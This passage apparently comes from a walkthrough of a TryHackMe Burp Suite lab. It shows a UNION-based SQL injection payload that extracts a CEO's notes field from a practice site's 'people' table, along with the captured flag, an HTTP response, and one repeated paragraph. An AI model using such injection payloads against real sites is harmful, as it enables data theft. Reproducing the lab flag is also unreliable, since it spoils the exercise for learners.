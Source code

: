 This process is shown in below:

![SQLi with Repeater](https://assets.muirlandoracle.co.uk/thm/modules/burp/94629aaae1f0.png)

We have successfully identified eight columns in this table: `id`, `firstName`, `lastName`, `pfpLink`, `role`, `shortRole`, `bio`, and `notes`.

Considering our task, it seems a safe bet that our target column is `notes`.

Finally, we are ready to take the flag from this database -- we have all of the information that we need:

- The name of the table: `people`.
- The name of the target column: `notes`.
- The ID of the CEO is `1`; this can be found simply by clicking on Jameson Wolfe's profile on the /about/ page and checking the ID in the URL.

Let's craft a query to extract this flag:
0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1

Hey presto, we have a flag!

Let's craft a query to extract this flag:
`0 UNION ALL SELECT notes,null,null,null,null FROM people WHERE id = 1`

Hey presto, we have a flag!

![SQLi with Repeater](https://assets.muirlandoracle.co.uk/thm/modules/burp/1ec697198c99.png)

Exploit the union SQL injection vulnerability in the site.

1. **What is the flag?**

- **_Ans: THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh}_**

**Response**

```html
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Sun, 19 Sep 2021 08:05:25 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Front-End-Https: on
Content-Length: 3430

<!DOCTYPE html>
<html lang=en>
    <head>
        <title>About | THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh} None</title>
        <meta charset=utf-8>
        <meta name=viewport content="width=device-width, initial-scale=1.0">
        <link rel="icon" type="image/x-icon" href="/assets/favicon.ico">
        <link href="/assets/css/bootstrap-icons.css" rel="stylesheet">
        <link href="/assets/css/styles.css" rel="stylesheet">
        <link href=/assets/css/person.css rel="stylesheet" type="text/css">
    </head>
    <body class="d-flex flex-column h-100">
        <main class="flex-shrink-0">
            <nav class="navbar navbar-expand-lg navbar-dark bg-dark">
                <div class="container px-5">
                    <a class="navbar-brand" href="/"><img class="nav-brand-logo" src="/assets/favicon.ico">Bastion Hosting</a>
                    <button class="navbar-toggler" type="button" data-bs-toggle="collapse" data-bs-target="#navbarSupportedContent" aria-controls="navbarSupportedContent" aria-expanded="false" aria-label="Toggle navigation"><span class="navbar-toggler-icon"></span></button>
                    <div class="collapse navbar-collapse" id="navbarSupportedContent">
                        <ul class="navbar-nav ms-auto mb-2 mb-lg-0">
                            <li class="nav-item"><a class="nav-link" href="/">Home</a></li>
```